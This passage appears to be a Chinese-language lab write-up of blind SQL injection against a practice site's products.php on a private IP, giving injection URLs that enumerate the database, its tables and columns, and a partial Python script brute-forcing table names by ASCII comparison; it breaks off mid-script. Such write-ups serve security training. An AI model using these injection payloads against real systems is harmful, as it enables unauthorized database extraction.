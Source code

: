 ``````
```

爆破出来数据库名为seattle

![1559815650493](assets/1559815650493.png)

判断出来数据库存在3个表

```
http://10.1.0.239/products.php?type=1%20and%20(select%20count(table_name)%20from%20information_schema.tables%20where%20table_schema=database())=3 
```
三个表名
```
url="http://10.1.0.239/products.php?type=1%20and%20mid%28%28select%20table_name%20from%20information_schema.tables%20where%20table_schema%3ddatabase%28%29%20limit%200,1%29,1,1%29%3d%27t%27"
```

![1559817167907](assets/1559817167907.png)

开始爆字段，用如下语句

```
and mid((select column_name from information_schema.columns where table_name='tblblogs' limit 0,1),1,1)='t'
```

一直爆不出来字段，发现原来是这种爆破脚本存在一个无法分辨大小写的问题。
改进一下脚本,变成ASCII的判断。

```python
"""
@Product:DVWA 
@Author:Aixic
@create：2019-06-04-19:33
"""
import urllib.request

header={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
    ,'Cookie': 'level=1','Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3'}
if __name__ == '__main__':
    a=""
    c = 0
    for k in range(0,20):
        a+="\r\n"+str(k)+":"
        if c==2:
            print("结束了")
            exit()
        for i in range(1,20):
            for j in range(255):
                #j="t"
                url="http://10.1.0.239/products.php?type=1%20and%28select%20ascii%28mid%28%28select%20table_name%20from%20information_schema.tables%20where%20table_schema=database%28%29%20limit%20"+str(k)+",1%29,"+str(i)+",1%29%29%29="+str(j)+""
                try:
                    #print(url)
                    rp = urllib.request.Request(url, headers=header)
                    respon = urllib.request.urlopen(rp)
                    html = respon.read().decode('utf-8')
                    #print(html)
                    #exit()
                    if "Foo Vinyl" in html:
``````